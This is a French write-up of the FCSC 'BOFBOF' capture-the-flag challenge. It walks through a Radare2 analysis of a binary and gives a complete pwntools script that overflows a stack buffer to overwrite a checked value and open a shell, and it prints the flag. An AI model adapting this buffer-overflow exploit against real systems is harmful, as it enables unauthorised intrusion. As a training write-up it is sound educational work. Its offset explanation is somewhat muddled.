





# BOFBOF

catégorie | points
:-----: | :----:
Intro | 20

## 0x0 Intro

>Votre but est d'obtenir un shell sur la machine pour lire le fichier flag.txt.
>
>nc challenges2.france-cybersecurity-challenge.fr 4002
>
>SHA256(bofbof) = bd78bff2d72fcc6ebc82f248ea14761d66fc476aca13eed22db541f2960f9fce

## 0x0 Explication

Un binaire, un shell à obtenir, vous savez ce que cela veut dire ??? REVERSING TIME !

## 0x1 Reconnaissance

Avant tout, soit on file sur le serveur pour voir comment réagit via la commande donnée dans l'énoncé.
Soit on le rend éxécutable sur notre machine et on le test en local:

```bash
chomd +x bofbof && ./bofbof
```

Celui ci va nous gratifier d'un magnifique :

```bash
Comment est votre blanquette ?
>>> 
```

Si vous êtes sur le serveur, si vous essayez une chaine au hasard, la connexion se ferme instantanément.

Premier réflexe, essayer un buffer overflow, si vous êtes en local, vous aurez ce magnifique message:

```bash
Comment est votre blanquette ?
>>> Almost there!
[1]    27372 segmentation fault (core dumped)  ./bofbof  < /usr/bin/echo
```

Ok, segmentation fault, on peux être sur un buffer overflow avec execution de code comme sur [poney du FCSC 2020](https://blog.caturday-lovers.fr.nf/?p=144) que nous avions résolu.

Pour en être certain, nous allons l'examiner.

## 0x2 Radare time

Même si cela semble compliqué à utiliser, sur ce genre d'exercice, cela reste toujours plus lisible.

On commence par charger l'éxécutable dans Radare2:



Une fois chargé, on l'analyse (cela aurait pu être fait avec l'option -AA au lancement)



Une fois analysé, nous alons pouvoir regarder plus en profondeur le code:



Je vous ai mis en avant les points important:

point | explication
:----:| :----:
1 | vérifie si la chaine dans RAX est égale à 0x4141414141414141 (soit AAAAAAAA)
2 | vérifie si la chaine dans RAX est égale à 0x1122334455667788
3 | si RAX n'est pas égale à la chaine présenté en 2 alors on jump
4 | on exécute la partie sym.vuln, interessant, nous l'étudierons
5 | notre message d'erreur, et comme nous pouvons le constaté, si nous sommes égale à AAAAAAAA on ne l'aura pas.

Et quand nous examinons sym.vuln, nous trouvons le code suivant:



MAZELTOV, c'est par ici que nous accèderons au shell.

## 0x3 Exploitation

Donc, nous avons compris que nous allons avoir une chaine a entrer dans bofbof,
qui à un certain moment, devra être égale à la valeur de 0x1122334455667788.

Pour ce faire, nous devons connaitre une chose importante, la taille du buffer.

Il est indiqué au début du main, sous la forme:

>132: int main (int argc, char **argv, char **envp);
>
>│           ; var char *s @ rbp-0x30
>
>│           ; var uint32_t var_8h @ rbp-0x8

Que cela nous indique t'il ? deux choses:

 La taille max de la chaine est 0x30 et le buffer en 64 bits est de 0x8.
 Notre chaine devra donc se situer à -10 caractères (les 8 de la valeur désirée -2 pour le linebreak, le \n)

 Il est temps de lancer VIM, et de commencer à coder en python.

## 0X4 Coding

Pour faciliter les choses, et ne pas se prendre la tête sur le big endian et le petit endian,
nous allons utiliser la librairie pwntools

```python
#!/usr/bin/env python
# coding: utf-8

import pwn
import argparse

# pwn.context.log_level = "debug"
shell = "challenges2.france-cybersecurity-challenge.fr"
port = 4002
winArg = 0x1122334455667788
charge = pwn.cyclic(0x20 + 8)
payload = charge + pwn.p64(winArg)
binary = "./bofbof"


def startExploit(isOnline):
    try:
        if isOnline:
            Online()
        else:
            Local()
    except:
        pwn.error("C'était un accident ! UN BANAL ACCIDENT DE TRAPÈZE")
    finally:
        pwn.info("Ah ! C'était donc ça tout ce tintouin.")


def Local():
    pwn.context.binary = binary
    pwn.info("Mais qu'est-ce que c'est que ce guet-apens ?!")
    stdout = pwn.process.PTY
    stdin = pwn.process.PTY
    target = pwn.process([binary], stdout=stdout, stdin=stdin)
    target.sendlineafter(">>>", payload)
    target.interactive()


def Online():
    pwn.info("C'est pas moi ! j'ai vu, je sais qui c'est, mais je ne dirais rien !")
    conn = pwn.remote(shell, port)
    conn.recvline()
    conn.sendlineafter(">>>", payload)
    conn.interactive()


def main():
    parser = argparse.ArgumentParser(
        description="Excuter Hubert en ligne ou local", prog="Exploit.py"
    )
    parser.add_argument(
        "-o",
        "--online",
        dest="isOnline",
        help="Hubert en mode online",
        action="store_true",
        default=False,
    )
    args = parser.parse_args()
    if args.isOnline:
        Online()
    else:
        Local()


if __name__ == "__main__":
    main()
```

On test sur notre cible en locale, et nous accèdons à un shell. On a gagné !
On passe l'exploit en mode online en ajoutant -o au lancement:



le flag était donc:

>FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}

## 0X5 TL;DR

Le flag était accessible en entrant une chaine forgée afin que la représentation
de la fin de la chaine en héxadécimale soit égale à 0x1122334455667788

Pour faire cela, le script [exploit.py](./Exploit.py) avec l'aide de pwntools va intéragir avec
le chall afin de nous laisser accéder au shell proposé sur la machine.

